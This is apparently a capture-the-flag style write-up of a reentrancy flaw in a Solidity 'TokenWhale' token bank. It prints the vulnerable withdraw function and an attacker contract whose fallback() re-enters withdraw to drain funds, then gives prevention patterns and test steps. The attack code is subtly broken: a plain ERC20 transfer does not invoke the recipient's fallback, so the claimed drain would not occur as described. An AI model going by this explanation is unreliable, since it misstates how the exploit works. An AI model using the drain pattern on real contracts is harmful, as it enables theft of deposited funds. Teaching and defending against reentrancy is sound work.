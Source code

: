 # Token Whale Reentrancy Attack Solution

## Overview

This exercise demonstrates a classic reentrancy vulnerability in a token bank contract. The `TokenWhale` contract allows users to deposit and withdraw ERC20 tokens, but the `withdraw` function is vulnerable to reentrancy attacks due to improper state management.

## The Vulnerability

### Root Cause
The vulnerability exists in the `withdraw` function of the `TokenWhale` contract:

```solidity
function withdraw(address token, uint256 amount) external {
    uint256 userBalance = balances[token][msg.sender];
    require(userBalance >= amount, "Insufficient balance");
    
    // VULNERABILITY: External call before state update
    bool success = IToken(token).transfer(msg.sender, amount);
    require(success, "Token transfer failed");
    
    // State update happens AFTER the external call (vulnerable to reentrancy)
    balances[token][msg.sender] -= amount;
}
```

**The Problem**: The contract makes an external call (`IToken(token).transfer()`) before updating the internal state (`balances[token][msg.sender] -= amount`). This creates a window where an attacker can re-enter the function and drain funds.

### Why This Happens
1. **External Call First**: The contract transfers tokens to the caller
2. **State Update After**: The balance is only updated after the transfer
3. **Reentrancy Window**: Between the transfer and balance update, the attacker can call `withdraw` again
4. **Recursive Drain**: Each call sees the old balance, allowing multiple withdrawals

## The Attack

### Attack Contract: `TokenWhaleAttacker`

The attacker contract exploits this vulnerability through the following steps:

1. **Setup**: Deposit tokens into the vulnerable contract
2. **Initiate Attack**: Call `withdraw` to start the attack
3. **Reentrancy**: Use `fallback()` or `receive()` to re-enter during token transfer
4. **Drain**: Continue withdrawing until the contract is empty

### Key Components

#### Attack Initialization
```solidity
function attack(uint256 attackAmount) external {
    // Transfer tokens from attacker to this contract
    IToken(targetToken).transferFrom(msg.sender, address(this), attackAmount);
    
    // Approve TokenWhale to spend our tokens
    IToken(targetToken).approve(address(tokenWhale), attackAmount);
    
    // Deposit tokens into TokenWhale
    tokenWhale.deposit(targetToken, attackAmount);
    
    // Start the reentrancy attack
    attacking = true;
    tokenWhale.withdraw(targetToken, attackAmount);
    attacking = false;
}
```

#### Reentrancy Logic
```solidity
fallback() external {
    if (attacking) {
        uint256 whaleBalance = tokenWhale.getTotalBalance(targetToken);
        uint256 myBalance = tokenWhale.getBalance(targetToken, address(this));
        
        if (whaleBalance > 0 && myBalance > 0) {
            // Re-enter the withdraw function before the state is updated
            tokenWhale.withdraw(targetToken, myBalance);
        }
    }
}
```

## Attack Flow

1. **Attacker deposits 100 tokens** into TokenWhale
2. **Attacker calls `withdraw(100)`**
3. **TokenWhale checks balance**: `balances[token][attacker] = 100` ✓
4. **TokenWhale transfers 100 tokens** to attacker
5. **Attacker's `fallback()` is triggered** during the transfer
6. **Attacker re-enters `withdraw(100)`** before balance is updated
7. **TokenWhale checks balance again**: `balances[token][attacker] = 100` ✓ (still old value!)
8. **TokenWhale transfers another 100 tokens**
9. **Process repeats** until TokenWhale is drained

## Impact

- **Fund Drainage**: Attacker can drain all tokens from the contract
- **Recursive Exploitation**: Each deposit can be withdrawn multiple times
- **Economic Loss**: Legitimate users lose their deposited tokens

## Prevention

### 1. Checks-Effects-Interactions Pattern
Update state before making external calls:

```solidity
function withdraw(address token, uint256 amount) external {
    uint256 userBalance = balances[token][msg.sender];
    require(userBalance >= amount, "Insufficient balance");
    
    // SECURE: Update state BEFORE external call
    balances[token][msg.sender] -= amount;
    
    // Make external call after state update
    bool success = IToken(token).transfer(msg.sender, amount);
    require(success, "Token transfer failed");
}
```

### 2. Reentrancy Guard
Use a modifier to prevent reentrancy:

```solidity
bool private locked;

modifier noReentrant() {
    require(!locked, "No reentrancy allowed");
    locked = true;
    _;
    locked = false;
}

function withdraw(address token, uint256 amount) external noReentrant {
    // ... function logic
}
```

### 3. Pull Payment Pattern
Let users withdraw their own funds instead of pushing:

```solidity
mapping(address => uint256) public pendingWithdrawals;

function requestWithdrawal(address token, uint256 amount) external {
    // Update state immediately
    balances[token][msg.sender] -= amount;
    pendingWithdrawals[msg.sender] += amount;
}

function withdrawFunds() external {
    uint256 amount = pendingWithdrawals[msg.sender];
    pendingWithdrawals[msg.sender] = 0;
    // Transfer to user
}
```

## Testing the Attack

### Setup
1. Deploy `MockToken` with initial supply
2. Deploy `TokenWhale` contract
3. Deploy `TokenWhaleAttacker` with TokenWhale and token addresses
4. Transfer tokens to attacker contract
5. Call `attack()` function

### Expected Result
- Attacker contract should drain all tokens from TokenWhale
- Multiple withdrawals occur from a single deposit
- TokenWhale's balance goes to zero

## Real-World Examples

- **The DAO Hack (2016)**: $60M drained through reentrancy
- **Lendf.me (2020)**: $25M stolen via reentrancy attack
- **Cream Finance (2021)**: $130M lost to reentrancy

## Key Takeaways

1. **Always update state before external calls**
2. **Use reentrancy guards for critical functions**
3. **Follow the Checks-Effects-Interactions pattern**
4. **Test thoroughly with malicious contracts**
5. **Consider using established libraries like OpenZeppelin**

This vulnerability demonstrates why proper state management and external call ordering are crucial for smart contract security.
